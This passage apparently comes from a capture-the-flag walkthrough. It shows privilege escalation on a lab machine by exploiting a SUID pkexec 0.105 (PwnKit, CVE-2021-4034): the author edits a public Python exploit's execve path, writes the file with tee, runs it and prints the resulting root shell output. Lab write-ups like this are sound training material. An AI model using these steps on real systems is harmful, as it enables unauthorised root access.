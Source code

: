 `.git` might be exploitable → Get into it and find out

```tsx
red@red:~$ cd .git 
cd .git
red@red:~/.git$ ls -la
ls -la
total 40
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
```

The `pkexec` is set with `SUID` → Check its version:

```tsx
red@red:~/.git$ ./pkexec --version
./pkexec --version
pkexec version 0.105
```

Googling the **********pkexec********** with version **********0.105********** and I found the exploit script from [this source](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py). Before creating an exploit binary with the original script from the source, you have to focus on the last line which is:

```tsx
libc.execve(b'/usr/bin/pkexec', c_char_p(None), environ_p)
```

The above script run the `pkexec` from the default path `/usr/bin/pkexec`. But in out situation, the vulnerable `pkexec` with `SUID` is located in `/home/red/.git` directory. For that, change it to this one:

```tsx
libc.execve(b'/home/red/.git/pkexec', c_char_p(None), environ_p)
```

Using `vim`, `nano` is not available in the current state. So, let’s use `tee` with this option:

```tsx
red@red:~/.git$ tee -a <<EOF >exploit.py
> #!/usr/bin/env python3
[REDACTED...]
> print('[+] Calling execve()')
> 
# Call execve() with NULL arguments
> libc.execve(b'/home/red/.git/pkexec', c_char_p(None), environ_p)
> EOF
```

Don’t forget to `chmod +x` to the ************************************exploit.py.************************************ Then execute the file:

```tsx
red@red:~/.git$ python3 exploit.py 
python3 exploit.py

id
uid=0(root) gid=1001(red) groups=1001(red)
whoami
root
pwd
/home/red/.git
cd /root
ls -la
total 40
drwx------  6 root root 4096 Apr 24 22:33 .
drwxr-xr-x 19 root root 4096 Aug 13  2022 ..
lrwxrwxrwx  1 root root    9 Aug 14  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
```